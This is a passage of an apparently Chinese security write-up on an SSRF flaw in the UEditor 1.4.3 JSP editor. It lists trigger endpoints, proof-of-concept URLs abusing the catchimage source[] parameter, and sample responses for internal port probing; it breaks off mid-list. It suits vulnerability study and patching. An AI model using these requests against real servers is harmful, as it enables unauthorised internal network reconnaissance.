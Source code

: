 **0x05 SSRF漏洞**

该漏洞存在于1.4.3的jsp版本中。但1.4.3.1版本已经修复了该漏洞。

![图片](https://shs3.b.qianxin.com/butian_public/f1e1f2c924266acdbc44b18d05e9395c4.jpg)

已知该版本ueditor的ssrf触发点：

- 
- 
- 

```php
/jsp/controller.jsp?action=catchimage&source[]=/jsp/getRemoteImage.jsp?upfile=/php/controller.php?action=catchimage&source[]=
```

使用百度logo构造poc：

- 

```php
http://1.1.1.1:8080/cmd/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/PCtm_d9c8750bed0b3c7d089fa7d55720d6cf.png
```

Poc如下，同样是该controller文件，构造source参数，即可进行内网相关端口探测。

- 
- 
- 

```php
/ueditor/jsp/getRemoteImage.jsp?upfile=http://127.0.0.1/favicon.ico?.jpg/ueditor/jsp/controller.jsp?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif/ueditor/php/controller.php?action=catchimage&source[]=https://www.baidu.com/img/baidu_jgylogo3.gif
```

这里可以根据页面返回的结果不同，来判断该地址对应的主机端口是否开放。可以总结为以下几点：

1.如果抓取不存在的图片地址时，页面返回如下，即state为“远程连接出错”。

- 

```php
{“state”: “SUCCESS”, list:[{“state”:"\u8fdc\u7a0b\u8fde\u63a5\u51fa\u9519"} ]}
```

2.如果成功抓取到图片，页面返回如下，即state为“SUCCESS”。

- 

```php
{“state”: “SUCCESS”, list: [{“state”:“SUCCESS”,“size”:“5103”,“source”:“http://192.168.135.133:8080/tomcat.png”,“title”:“1527173588127099881.png”,“url”:"/ueditor/jsp/upload/image/20180524/1527173588127099881.png"}]}
```

3.如果主机无法访问，页面返回如下，即state为“抓取远程图片失败”。

- 
